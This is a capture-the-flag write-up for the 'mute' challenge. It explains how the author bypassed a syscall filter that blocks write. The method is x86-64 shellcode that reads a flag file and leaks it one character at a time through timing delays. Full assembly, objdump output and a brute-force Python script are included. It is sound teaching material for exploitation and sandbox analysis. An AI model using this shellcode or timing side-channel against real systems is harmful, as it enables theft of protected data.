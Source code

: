 # Writeup
The challenge gives the mute executable and that's all.
Doing a reverse engineer with IDA, we can note two things:

1- There is a function dropSyscalls which drops every syscalls, except 0x0, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc and 0x3b.
This means that the syscall 0x1 (write) is forbiden and we cannot write to stdout.

![mute2](https://cloud.githubusercontent.com/assets/1280700/25589772/45f41628-2e84-11e7-98f7-7d6f808be792.png)

2- The executable just reads some bytes from stdin (lines 15-20) and executes it (line 21).

![mute1](https://cloud.githubusercontent.com/assets/1280700/25589768/42ff307e-2e84-11e7-81ac-f932461b2bd7.png)

After noticing that, the first thing that came to my mind was to send a shellcode which reads the flag (I assumed it was
in /home/mute/flag) and does a time-based blind attack. The code tries to guess a character position of the flag. If it
is correct, them takes some time (looping) before exiting. If it is incorrect, it just exits imediately. Actually, the exit
syscall is forbidden, but it does not metter for us because we are only interested in the timing.

```assembly
section .text
    global _start

_start:
;/home/mute/flag
mov r8, 0x67616c662f6574
push r8
mov r8, 0x756d2f656d6f682f
push r8

; syscall open file
mov rdi, rsp ; pop path value
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
cmp byte [rsi + 1], 0x69
jne exit

;guessed correct? sleep
mov ecx,0
loop1:

inc ecx
cmp ecx, 0xffffffff
jne loop1

mov ecx,0
loop2:

inc ecx
cmp ecx, 0xffffffff
jne loop2

; syscall exit
exit:
xor rax, rax
add al, 60
syscall
```

And the objdump:

```
$ nasm -f elf64 shell.asm ; ld -o shell shell.o; objdump -d shell

shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	49 b8 74 65 2f 66 6c 	movabs $0x67616c662f6574,%r8
  400087:	61 67 00 
  40008a:	41 50                	push   %r8
  40008c:	49 b8 2f 68 6f 6d 65 	movabs $0x756d2f656d6f682f,%r8
  400093:	2f 6d 75 
  400096:	41 50                	push   %r8
  400098:	48 89 e7             	mov    %rsp,%rdi
  40009b:	48 31 c0             	xor    %rax,%rax
  40009e:	04 02                	add    $0x2,%al
  4000a0:	48 31 f6             	xor    %rsi,%rsi
  4000a3:	0f 05                	syscall 
  4000a5:	66 81 ec ff 0f       	sub    $0xfff,%sp
  4000aa:	48 8d 34 24          	lea    (%rsp),%rsi
  4000ae:	48 89 c7             	mov    %rax,%rdi
  4000b1:	48 31 d2             	xor    %rdx,%rdx
  4000b4:	66 ba ff 0f          	mov    $0xfff,%dx
  4000b8:	48 31 c0             	xor    %rax,%rax
  4000bb:	0f 05                	syscall 
  4000bd:	80 7e 01 69          	cmpb   $0x69,0x1(%rsi)
  4000c1:	75 18                	jne    4000db <exit>
  4000c3:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000c8 <loop1>:
  4000c8:	ff c1                	inc    %ecx
  4000ca:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000cd:	75 f9                	jne    4000c8 <loop1>
  4000cf:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000d4 <loop2>:
  4000d4:	ff c1                	inc    %ecx
  4000d6:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000d9:	75 f9                	jne    4000d4 <loop2>

00000000004000db <exit>:
  4000db:	48 31 c0             	xor    %rax,%rax
  4000de:	04 3c                	add    $0x3c,%al
  4000e0:	0f 05                	syscall
```

Taking the bytes of this shellcode, I made a python script to do this blind attack. The script sends the same bytes of 
the shellcode above, but replacing the corresponding guessing position and character (*cmp byte [rsi + 1], 0x69*).

```python
from pwn import *
import string
from datetime import datetime
import os

context.log_level = 'error'

shell = "\\x49\\xb8\\x74\\x65\\x2f\\x66\\x6c\\x61\\x67\\x00\\x41\\x50\\x49\\xb8\\x2f\\x68\\x6f\\x6d\\x65\\x2f\\x6d\\x75\\x41\\x50\\x48\\x89\\xe7\\x48\\x31\\xc0\\x04\\x02\\x48\\x31\\xf6\\x0f\\x05\\x66\\x81\\xec\\xff\\x0f\\x48\\x8d\\x34\\x24\\x48\\x89\\xc7\\x48\\x31\\xd2\\x66\\xba\\xff\\x0f\\x48\\x31\\xc0\\x0f\\x05\\x80\\x7e\\x01\\x68\\x75\\x18\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\x48\\x31\\xc0\\x04\\x3c\\x0f\\x05"

flag = ""
i = 1

while True:
    for c in string.printable:
        try:
            current_shell = shell.replace("\\x01\\x68", "\\x" + chr(i).encode("hex") + "\\x" + c.encode("hex"))
            start = datetime.now()
            os.popen("python -c 'print(\"" + current_shell + "\" + \"\\x00\"*4009)' | ./mute") # nc mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me 443
            total = (datetime.now() - start).seconds
            if total >= 2:
                i += 1
                flag += c
                print("FOUND!!!!!")
                print(flag)
        except:
            pass
```

Locally it worked fine! Now it was time to try remotely. However, it was missing just about 10 minutes for the end of the competition.
Although I did not submit the flag in time, I consider that I solved this challenge. I took a look at this challenge just 2 
hours before the end of the competition and when I was with about half of the flag, the time went over and the server came 
down :(
**The flag is: I tXXXXXXXXXat I'd do was, I'd pXXXXXX**

where **X** are the missing characters. It may have some wrong characters because of wrong estimation of time, but nothing that a double check could not solve.

